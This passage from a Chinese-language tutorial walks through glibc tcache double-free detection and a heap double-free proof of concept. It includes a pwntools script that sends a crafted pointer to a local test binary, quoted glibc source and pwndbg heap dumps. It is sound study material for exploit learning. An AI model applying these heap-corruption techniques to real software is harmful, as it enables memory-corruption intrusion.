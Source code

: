 为了方便交互，我还写了一个脚本：

```python
from pwn import *
context.log_level='debug'
p=process('./test')
gdb.attach(p,'b 9')
p.send('a'*8+p64(0x0000555555756010))
p.interactive()
```

运行此脚本后我们finish后直接跳到断点处，然后引入malloc源码进入free开始调试：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1618880477587-f35d04ae-2ed4-4e0e-ad65-a322d5d429e5.png)

现在进入了if语句，但是是否发生了double free还需要if语句中的for循环来确定：

```python
	    for (tmp = tcache->entries[tc_idx]; //获取tcachebin中的最后一个进入的free chunk
		 tmp;	//判断循环终止条件：tmp堆块是否为NULL
		 tmp = tmp->next) //获取tmp的next指针，也就是下一个chunk
	      if (tmp == e) //如果bin中有两个相同的chunk，则说明发生了double free
		malloc_printerr ("free(): double free detected in tcache 2"); //触发异常
```

在这个for循环中会对对应大小的tcachebin进行遍历，要触发异常我们的chunk必须在tcachebin中，这也就避免来堆块中的用户数据影响堆块的释放过程：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1618880892332-827db2eb-b12d-4d83-9af3-25ce4fdb3928.png)

额，扯的好像有点远了，我们继续来看POC：

```c
	printf("Allocating 3 buffers.\n");
	int *a = calloc(1, 8);
	int *b = calloc(1, 8);
	int *c = calloc(1, 8);
```

> calloc(1, 8)：在堆中分配1个长度为8的连续空间
>
> calloc申请堆块不会向tcachebin中申请堆块，具体原因可以看之前malloc文章或malloc源码
>

结果如下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1618881585474-a155debb-0127-4e6d-bbd4-75b4c765137d.png)

```c
pwndbg> x/120gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
0x555555757010:	0x0000000000000007	0x0000000000000000
......
0x555555757050:	0x0000555555757320	0x0000000000000000
......
0x555555757250:	0x0000000000000000	0x0000000000000021 #index1(tcachebin)
0x555555757260:	0x0000000000000000	0x0000555555757010
0x555555757270:	0x0000000000000000	0x0000000000000021 #index2(tcachebin)
0x555555757280:	0x0000555555757260	0x0000555555757010
0x555555757290:	0x0000000000000000	0x0000000000000021 #index3(tcachebin)
0x5555557572a0:	0x0000555555757280	0x0000555555757010
0x5555557572b0:	0x0000000000000000	0x0000000000000021 #index4(tcachebin)
0x5555557572c0:	0x00005555557572a0	0x0000555555757010
0x5555557572d0:	0x0000000000000000	0x0000000000000021 #index5(tcachebin)
0x5555557572e0:	0x00005555557572c0	0x0000555555757010
0x5555557572f0:	0x0000000000000000	0x0000000000000021 #index6(tcachebin)
0x555555757300:	0x00005555557572e0	0x0000555555757010
0x555555757310:	0x0000000000000000	0x0000000000000021 #index7(tcachebin)
0x555555757320:	0x0000555555757300	0x0000555555757010
0x555555757330:	0x0000000000000000	0x0000000000000021 #index8(malloc)
```